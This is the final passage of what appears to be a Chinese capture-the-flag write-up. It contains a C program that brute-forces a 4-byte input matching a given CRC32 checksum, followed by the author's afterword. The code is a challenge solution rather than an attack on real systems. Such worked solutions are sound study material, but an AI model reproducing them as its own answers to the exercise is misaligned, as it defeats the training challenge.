  0x54de5729, 0x23d967bf, 0xb3667a2e, 0xc4614ab8, 0x5d681b02, 0x2a6f2b94,
  0xb40bbe37, 0xc30c8ea1, 0x5a05df1b, 0x2d02ef8d
};

uint32_t crc32(uint32_t crc, const unsigned char *buf, size_t size) {
  const uint8_t *p;

  p = buf;
  crc = crc ^ ~0U;

  while (size--) {
    crc = crc32_tab[(crc ^ *p++) & 0xFF] ^ (crc >> 8);
  }

  return crc ^ ~0U;
}

int main()
{
	uint32_t crcval;
	scanf("%u", &crcval);
	for (uint32_t x = 0; x < 0xffffffff; x++)
	{
		if (crc32(0, (unsigned char *)&x, sizeof(uint32_t)) == crcval)
		{
			printf("%x", x);
			return 0;
		}
			
	}
	return 0;
}

```

## 0x08 后言

哈哈，我其实是在这个训练平台上第一个做出来这道题的，可以。最后，再次祝大家苟年大吉，万事如意，新的一年挖到更多0day！
 
